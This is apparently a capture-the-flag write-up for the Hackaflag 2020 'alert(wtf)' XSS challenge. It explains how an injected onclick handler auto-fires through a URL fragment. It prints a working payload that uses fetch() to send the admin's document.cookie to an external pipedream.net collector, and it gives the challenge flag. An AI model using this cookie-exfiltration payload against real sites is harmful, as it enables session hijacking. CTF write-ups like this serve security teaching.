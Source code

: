 # alert('wtf')
### STAGE: LINUS TORVALDS

This challenge is very simple if you use a "trick". We control what is inside the "onclick", so we can insert a "fetch" there to make the admin send us hi cookie. However, how do we trigger the onclick without clicking on the button?

Here, the trick I talked about is used. If, in the URL we sendo to the admin, we pass a `#<button_id>`, the onclick will be executed as the page loads. The HTML for the button will be:

``` HTML
<button id="x" onclick="fetch(`https://entrqu3y5wfm.x.pipedream.net/pwn=`+document.cookie)">Click me</button>
```

and the payload we will send to the admin is: 
```
http://159.65.249.122:4113/?dom=fetch(`https://entrqu3y5wfm.x.pipedream.net/pwn=`%2Bdocument.cookie)#x
```

Just like in the other Hackaflag challenges, we have a page where we send a URL that will be accessed by the admin. His cookie is the flag.
![Contact Admin Page](https://github.com/Haltz01/CTFs_Writeups/tree/master/2020_Hackaflag/alert(wtf)/alert2.png)

We get the admin's cookie and URL decode it. Done, we have the flag :)
`HACKAFLAG%7B4ut0_tr1gg3r_s4v3_m3%7D` -> URL DECODE -> `HACKAFLAG{4ut0_tr1gg3r_s4v3_m3}`

**Flag: `HACKAFLAG{4ut0_tr1gg3r_s4v3_m3}`**
